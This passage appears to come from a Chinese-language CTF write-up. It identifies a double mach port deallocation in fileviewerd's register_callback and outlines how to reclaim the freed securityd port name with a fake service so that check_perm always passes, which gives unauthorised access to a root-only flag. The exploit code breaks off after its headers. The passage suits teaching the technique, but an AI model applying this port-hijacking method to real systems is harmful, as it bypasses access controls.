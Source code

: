 <img src="./pics/pic6.png" alt="pic6" style="zoom:50%;" />

flag位于`/var/jb/var/root/flag`中，rwx为`-r--------  1 root   wheel`。显然我们以非root权限调用read_file或move_file接口读写flag都会被securityd的check_perm接口拒绝，但如果我们能绕过check_perm检查，就能直接getflag。

其实漏洞还是比较好找的，我们能很明显地感觉到register_callback对全局变量的处理有些奇怪：remove_callback会先deallocate掉global_callback_port后设置为空，没什么问题。但register_callback会直接deallocate掉global_callback_port，然后再设置为新指定的port。但这里register_callback中调用的deallocate明显是多余的，其实应该直接调用remove_callback，也就是要将global_callback_port清零之后再重新设置。当前这种实现是存在double deallocate漏洞的！

## Exploitment

Double mach deallocate漏洞的利用Samuel在Pillow中已经展示过了，感兴趣的可以深入学习，我这里不对mig源码作深入研究和展开。

我们首先通过bootstrap_look_up拿到fileviewerd的port和securityd的port，然后通过fileviewerd的port访问register_callback方法触发漏洞，从而double deallocate securityd的port，导致该mach port name在当前task中被彻底释放。这样，该 mach port name 可被下一次创建的 mach port 所重用。因此我们会尝试劫持这个mach port name，为fileviewerd伪造一个securityd，使得check_perm检查恒通过！这样我们再调用read_file或者move_file接口时就能越权对flag进行读写！！！

直接上exp。

```c
#include <stdio.h>
#include <mach/kern_return.h>
#include <mach/mach_traps.h>
#include <mach/mach.h>
#include <CoreFoundation/CoreFoundation.h>
#include <time.h>
#include <dlfcn.h>

#include "MIG/fileviewer.h"
#include "MIG/fileviewer_listener.h"

#define MAX_MSG_SIZE (8 * 1024 - MAX_TRAILER_SIZE)
typedef boolean_t (*dispatch_mig_callback_t)(mach_msg_header_t *message,
        mach_msg_header_t *reply);
```